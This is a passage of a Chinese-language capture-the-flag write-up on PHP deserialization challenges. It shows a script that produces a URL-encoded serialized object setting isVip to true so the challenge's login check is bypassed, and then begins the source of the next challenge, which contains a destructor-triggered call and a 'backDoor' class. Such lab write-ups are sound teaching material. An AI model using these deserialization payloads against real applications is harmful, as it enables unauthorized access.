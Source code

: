 第21行要求用户名密码不同，也是通过反序列化完成

```php
<?php

class ctfShowUser{
    public $username='123';
    public $password='456';
    public $isVip=true;
}

echo urlencode(serialize(new ctfShowUser));   
# O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A3%3A%22123%22%3Bs%3A8%3A%22password%22%3Bs%3A3%3A%22456%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
```

这里将用户名和密码设置为不同，然后get传参即可

![image-20220120194216379](image/ctfshow-反序列化(254-278)/image-20220120194216379.png)

## web257

```php
<?php

error_reporting(0);
highlight_file(__FILE__);

class ctfShowUser{
    private $username='xxxxxx';
    private $password='xxxxxx';
    private $isVip=false;
    private $class = 'info';

    public function __construct(){
        $this->class=new info();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class info{
    private $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    private $code;
```